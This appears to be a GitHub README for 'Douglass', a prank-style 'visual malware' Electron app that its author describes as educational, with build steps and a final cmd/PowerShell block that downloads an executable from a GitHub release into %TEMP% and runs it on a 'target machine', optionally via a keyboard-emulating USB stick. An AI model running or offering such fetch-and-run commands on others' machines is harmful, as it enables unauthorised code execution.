

# Douglass
Simple visual malware developed for education purposes.

This program is written in Typescript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.



## How to use
### Disclaimer
- This malware is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`
2) Run `npm run start`

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `douglass.exe`

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Electron-Builder](https://www.electron.build/).
4) Run `electron-builder --win portable`.
5) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.
- `Say` - Used to tts.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Douglass/releases/download/1.0/douglass.exe" -outfile "d.exe"
d.exe
exit
```